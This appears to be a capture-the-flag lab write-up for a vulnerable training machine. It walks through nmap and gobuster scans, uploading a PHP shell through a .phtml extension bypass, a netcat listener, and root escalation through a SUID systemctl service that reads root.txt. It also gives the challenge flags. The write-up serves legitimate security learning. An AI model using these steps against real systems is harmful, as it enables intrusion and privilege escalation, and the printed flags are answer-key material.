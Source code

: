 # First
nmap -sV -sC -oN vulnerversity.namp 10.10.176.147
## Ports Open
6
### version of the squid proxy 
3.5.12
### operating system 
Ubuntu

# Second
gobuster dir -u http://10.10.87.135:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

### directory that has an upload form page?
/internal

# Third
start burp suite and enable it in foxy proxy. Create a file with different php extensions for the Sniper attack
- every extension is yielding Status as 200 but the length of .phtml extension was different from the rest.
- try to upload a shell.phtml
- We start a netcat listener:
   nc -lvp 4444
 ###  name of the user who manages the webserver
 bill
 ### user.txt
 8bd7992fbe8a6ad22a63361004cfcedb
 
 # privilage escilation
 - check the system for SUID files
 command ---> find / -perm -u=s -type f 2>/dev/null
We see that /bin/systemctl is a SUID binary. We could use this to gain privelage access. We have a look at gtfobins and search for systemctl
We create a temporary service and then use that to view root.txt file.
```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

```
#Root Flag
a58ff8579f0a9270368d33a9966c7fd5


